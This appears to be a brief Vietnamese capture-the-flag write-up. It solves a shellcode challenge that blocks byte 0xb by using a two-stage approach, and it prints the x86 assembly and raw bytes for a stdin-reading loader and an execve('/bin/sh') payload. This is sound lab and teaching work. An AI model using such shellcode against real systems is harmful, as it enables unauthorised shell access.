

# Solution

shellcode bị chặn byte 0xb nên ko thể gọi syscall execve trực tiếp được. Có thể viết self-modifying shellcode để gọi syscall execve. Mình sẽ viết shellcode để read thêm shellcode mới từ stdin, shellcode này sẽ ghi ngay sau shellcode cũ, sau khi read xong sẽ thực thi shellcode mới. Shellcode mới sẽ gọi syscall execve để thực thi `/bin/sh`.

```
    xor ebx, ebx
    push 0x804a073
    pop ecx
    xor edx, edx
    mov dh, 0x100 >> 8
    xor eax, eax
    add eax,3
    int 0x80
```

`31DB6873A004085931D2B60131C083C003CD80`

shellcode để thực thi `/bin/sh`

```
jmp    0xd
pop    ebx
xor    eax,eax
xor    ecx,ecx
xor    edx,edx
mov    al,0xb
int    0x80
call   0x2
das
bound  ebp,QWORD PTR [ecx+0x6e]
das
jae    0x81
```

`\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`



từ bài 1-4  dùng một cách giống nhau được.